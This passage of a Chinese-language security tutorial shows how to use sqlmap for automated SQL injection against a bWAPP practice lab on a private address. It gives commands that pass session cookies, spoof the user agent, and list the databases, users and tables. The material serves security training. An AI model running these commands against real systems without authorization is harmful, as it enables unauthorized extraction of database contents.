 # 4. sqlmap工具注入

```
以上都是手动注入的方式，sqlmap是自动化注入的方式。
```

官网

https://sqlmap.org/

命令手册

https://github.com/sqlmapproject/sqlmap/wiki/Usage

## 4.1 示例1 (cookie)

```shell
sqlmap -u "http://10.102.224.206:9091/sqli_2.php?movie=2&action=go" --cookie="security_level=0; PHPSESSID=5e1t9ri2803gn5pljps91q9h05"
```

```
可以直接获取库名，用户
sqlmap -u "http://10.102.224.206:9091/sqli_1.php?title=&action=search" --cookie="security_level=0; PHPSESSID=6b1e00vmg8os2eiq2d4n3pon60" --random-agent -f -b -dbs --users
```

## 4.2 示例2 (random-agent & level)

```shell
sqlmap -u "http://10.102.224.206:9091/sqli_17.php" --cookie="security_level=0; PHPSESSID=5e1t9ri2803gn5pljps91q9h05" --random-agent
```

## 4.3 利用sqlmap测试bwapp

### 4.3.1 获取所有数据库

```
sqlmap -u "http://10.102.224.206:9091/sqli_2.php?movie=2&action=go" --cookie="security_level=0; PHPSESSID=6b1e00vmg8os2eiq2d4n3pon60" --random-agent -f -b -dbs
```

### 4.3.2 获取当前连接的数据库

```
sqlmap -u "http://10.102.224.206:9091/sqli_2.php?movie=2&action=go" --cookie="security_level=0; PHPSESSID=6b1e00vmg8os2eiq2d4n3pon60" --random-agent -f -b --current-db
```

### 4.3.3 获取当前连接的数据库中的所有表

```
sqlmap -u "http://10.102.224.206:9091/sqli_2.php?movie=2&action=go" --cookie="security_level=0; PHPSESSID=6b1e00vmg8os2eiq2d4n3pon60" --random-agent -f -b -D bWAPP --tables
```
